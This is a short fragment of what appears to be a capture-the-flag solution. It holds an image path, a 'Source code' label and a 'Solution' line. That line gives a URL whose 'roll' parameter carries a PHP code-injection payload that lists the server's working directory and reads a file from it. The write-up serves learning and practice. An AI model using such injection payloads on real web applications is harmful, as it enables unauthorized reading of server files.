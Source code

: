 ### Solution
view-source:http://192.46.227.32/?roll=readfile(next(array_reverse(scandir(getcwd())))).a
###########################
12345
